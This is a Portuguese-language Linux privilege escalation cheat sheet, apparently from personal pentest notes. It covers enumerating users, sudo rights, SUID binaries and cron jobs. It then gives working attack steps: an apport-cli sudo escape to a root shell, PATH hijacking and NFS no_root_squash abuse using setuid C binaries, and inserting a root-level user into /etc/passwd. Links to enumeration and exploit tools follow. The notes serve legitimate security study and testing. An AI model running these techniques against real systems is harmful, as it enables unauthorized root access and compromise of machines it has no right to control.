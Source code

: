 # Principais Arquivos
`/etc/passwd` Lista de usuários do sistema operacional.  
`/etc/shadow` Lista dos hashes das senhas dos usuários.  
`/proc/version` Arquivo com informações sobre o sistema operacional, versão do kernel e compiladores instalados (ex. GCC).  
`/etc/issue` Informações sobre o sistema operacional.  

# Principais Comandos
`hostname` Retorna o hostname da máquina.  
`uname -a` Retorna as informações do sistema, com detalhes sobre o kernel utilizado.  
`ps aux` O comando `ps` exibe os processos que estão rodando no sistema. As flags (a) exibe os processos de todos os usuários, (u) qual usuário iniciou um processo e (x) exibe os processos que não estão atrelados a um terminal.  
`env` Exibe as variáveis de ambiente.  
`sudo -l` Lista os comandos que o usuário tem permissão para executá-los como root.  
`ls -la` Para listar arquivos e diretórios em lista e ocultos.  
`id $user` Exibe informações do usuário como nível de privilégio e grupos associados.  
`history` Exibe o histórico de comandos executados no terminal.  
`ifconfig` Exibe as informações das interfaces de rede da máquina.  
`ip route` Exibe as rotas de rede existentes.  

# Checklist

## Identificação de usuários

### Nomes dos usuários
Através do arquivo /etc/passwd.
```bash
cat /etc/passwd | grep bash
```

No diretório /home  
```bash
ls /home
```

### Arquivos do usuário
```bash
find / -user $username 2>/dev/null
```
## Identificação de permissões do usuários
Em todos os casos, pesquisar pelos binários identificados no site [GTFOBins](https://gtfobins.github.io/).

### Permissão SUDO
```bash
sudo -l
```

#### Binários

##### **apport-cli < 2.26.0**
Essas versões do apport-cli são vulneráveis pois utilizam o comando less e dessa forma é possível escalar privilégio.

Primeiro verifique a versão:
```bash
apport-cli --version
```

Inicie o binário com  flag --file-bug:
```bash
sudo /usr/bin/apport-cli --file-bug
```

Escolha a opção 1:
![[Notes/PrivEsc Linux/img/Pasted image 20240409233329.png]]

No segundo menu escolha a opção 1:
![[Notes/PrivEsc Linux/img/Pasted image 20240409233429.png]]

Pressione qualquer tecla para continuar e no menu do relatório, escolha a opção V (View report):
![[Notes/PrivEsc Linux/img/Pasted image 20240409233604.png]]

Nesse momento o less é executado, então digite `/bin/bash` após os dois pontos e será retornada a shell do root:
![[Notes/PrivEsc Linux/img/Pasted image 20240409233723.png]]



### Permissão SUID
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Permissão Capabilites
```bash
getcap -r / 2>/dev/null
```

## Identificação de tarefas programadas

Através do arquivo /etc/crontab
```bash
cat /etc/crontab
```
Caso um script não possua o caminho absoluto definido no `/etc/crontab`, o cron irá buscar o arquivo nos diretórios definidos no PATH.
Lembre-se de dar a permissão de execução ao script.  

# Exploração OLD

### Buscando senhas no log:  
`grep -Ri password /var/log 2>/dev/null`  

### Manipulando a variável PATH  
Identificando diretórios com permissão de gravação:  
`find / -writable 2>/dev/null`  
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`  
Adicionando a pasta `/tmp` ao PATH:  
`export PATH=/tmp:$PATH`  
Criando um binário com o script que irá executar um comando:  
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("cmd");
}
```
Para compilar o código acima utilize o compilador GCC:  
`gcc binario.c -o binario -w`  
Altere as permissões do binário para SUID:  
`chmod u+s binario`  
Agora criamos o comando que será executado:  
`echo "/bin/bash" > cmd`  
Alteramos a permissão do comando criado:  
`chmod 777 cmd`  
E executamos o binário com o script que irá chamar o comando.  
Lembre-se de que os arquivos devem estar em um local com permissão de escrita, além do diretório estar declarado na variável PATH.  
### Explorando serviços de compartilhamento de arquivos (NFS)  
Na máquina alvo, verifique se existe diretórios compartilhados com a permissão no_root_squash:  
`cat /etc/exports`  
Na máquina atacante, verifique quais diretórios estão permitidos realizar a montagem:  
`showmount -e IP`  
Crie uma pasta na máquina atacante e faça a montagem do diretório remoto no diretório criado:  
`sudo mount -o rw IP:/shared/remote/folder /local/folder`  
Na pasta local, crie um script que irá executar a shell:  
```
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
Compile o script utilizando o GCC:  
`sudo gcc root.c -o root -static`  
Altere as permissões do binário criado para SUID:  
`sudo chmod +s root`  
Execute na máquina remota para escalar privilégio.  

### Adicionando um usuário com privilégio root  

Criar o hash da senha que será utilizada:  
`openssl passwd -1 -salt HACK senha123`  

Adicione as informações do usuário no arquivo `/etc/passwd`:  
`hacker3:\$1\$lord\$jZwvvuLH/snkFA6S/AJA6.:0:0:root:/root:/bin/bash`  

Agora é só trocar para o usuário criado:  
`su hacker`  

`python -c 'import crypt; print(crypt.crypt(senha123, "$6$lord"))'`  
`

`\$1\$lord\$jZwvvuLH\/snkFA6S\/AJA6\.`  

# Enumeração Automatizada  
**LinPeas**: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
**LinEnum:** https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  
**LES (Linux Exploit Suggester):** https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh  
**Linux Smart Enumeration:** https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh  
**Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)  

# Links de referências
## Vulnerabilidades conhecidas em Kernels  
https://www.linuxkernelcves.com/cves  

## Exploração de binários  
https://gtfobins.github.io/ -  Linux  
https://lolbas-project.github.io/ - Windows  

## MSF Venom Builder  
https://pentest.ws/tools/venom-builder  


